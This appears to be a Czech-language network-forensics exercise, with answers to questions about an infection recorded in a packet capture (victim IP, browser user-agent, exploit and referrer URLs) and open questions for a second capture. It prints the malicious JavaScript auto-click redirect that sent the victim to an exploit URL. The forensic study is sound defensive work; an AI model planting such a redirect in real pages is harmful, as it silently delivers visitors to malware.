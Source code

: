 # Zadání první části – soubor uloha1.pcap

## 1. Jaká je IP adresa stanice, která byla infikována?

```
127.80.179.181
```

## 2. Jaký prohlížeč infikovaná stanice používala?

Internet Explorer 8.0

User-Agent:
```
Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729)
```

## 3. Jaká je URL, ze které byl exploit stažen?

```
http://static.this-is-not-a-botnet.com/3h251q2c35
```

## 4. Jaká je URL webové stránky, ze které se stanice dostala na URL s exploitem?

```
http://akronkappas.com//d2a42e1f7d9a1021bd7d93af414c95c4.php?q=70a9b40eb73da11445c3a3609c8241d9
```

## 5. Jakým způsobem došlo k přesměrování na externí URL se škodlivým kódem?

```
<a id='myLink' href='http://static.this-is-not-a-botnet.com/3h251q2c35'>click</a><script>document.getElementById('myLink').click();</script>
```

# Zadání druhé části – soubor uloha2.pcap

1. Která URL adresa (uveďte alespoň doménu) způsobila infekci stanice?
2. Jak se uživatel dostal na danou doménu?
3. Samotný malware je uložen na jiné (externí) URL adrese. Jaká je to adresa?
4. Jakým způsobem došlo k přesměrování na externí URL se škodlivým kódem?
